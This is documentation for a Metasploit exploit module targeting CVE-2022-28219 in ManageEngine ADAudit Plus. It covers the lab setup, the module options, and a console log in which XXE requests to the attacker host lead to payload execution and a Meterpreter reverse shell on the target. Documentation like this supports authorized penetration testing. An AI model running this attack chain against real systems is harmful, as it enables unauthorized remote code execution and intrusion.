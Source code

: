 ## Vulnerable Application

The vulnerable application is ManageEngine ADAudit Plus prior to build 7060. I built and tested this on build 7055, which, at least at the time of this writing, you can download [here](https://archives2.manageengine.com/active-directory-audit/). It's a .exe file that you can install with all the defaults.

You also need to configure ADAudit to actually audit a domain. That means setting up a domain (I created a domain controller in the lab), and configuring ADAudit to scan that domain. That domain name must be set to the `DOMAIN` when using this exploit.

The last thing is, three connect-back ports must be open from the target back to Metasploit (in addition to whatever payload ports). By default, we use ports 8080 and 8888 for HTTP, and 2121 for FTP.

## Verification Steps

```
msf6 > use exploit/windows/http/manageengine_adaudit_plus_cve_2022_28219
[*] No payload configured, defaulting to cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/manageengine_adaudit_plus_cve_2022_28219) > set RHOSTS 10.0.0.148
RHOSTS => 10.0.0.148
msf6 exploit(windows/http/manageengine_adaudit_plus_cve_2022_28219) > exploit

[-] Msf::OptionValidateError The following options failed to validate: DOMAIN
msf6 exploit(windows/http/manageengine_adaudit_plus_cve_2022_28219) > set DOMAIN ad.example.local
DOMAIN => ad.example.local
msf6 exploit(windows/http/manageengine_adaudit_plus_cve_2022_28219) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. The vulnerable endpoint responds with HTTP/200.
[*] Attempting to exploit XXE to get a list of users
[*] Using URL: http://10.0.0.146:8080/KEmvnPFxS.dtd
[*] User accounts discovered: Ron
[*] Enumerating old payloads cached on the server (to skip later)
[*] Using URL: http://10.0.0.146:8080/NvkXTJXRyhV.dtd
[*] Attempting to exploit XXE to store our serialized payload on the server
[*] Trying to find our payload in all users' temp folders
[*] Using URL: http://10.0.0.146:8080/ppVHiihu.dtd
[*] Executing payload: /users/Ron/appdata/local/temp/jar_cache4413164256015023251.tmp...
[*] Sending stage (175686 bytes) to 10.0.0.148
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.148:52347) at 2022-07-07 15:19:59 -0700

meterpreter >
```

## Options

### TARGETURI_DESERIALIZATION / TARGETURI_XXE

The target URLs - probably won't ever need to be changed

### DOMAIN

A domain that the target monitors. We cannot validate this, but if the exploit should work and doesn't, this might be the issue.

### SRVPORT / SRVPORT_FTP / SRVPORT_HTTP2

The connect-back ports.

* `SRVPORT` is used to host XXE payloads
* `SRVPORT_HTTP2` is used for an XXE payload that is held open, creating a temporary file on the server
* `SRVPORT_FTP` is used for a fake off-spec FTP server that receives a directory listing also via XXE

# PATH_TRAVERSAL_DEPTH

The number of `../` to add to the request

# FtpCallbackTimeout / HttpUploadTimeout

How long to wait for FTP or HTTP responses before giving up
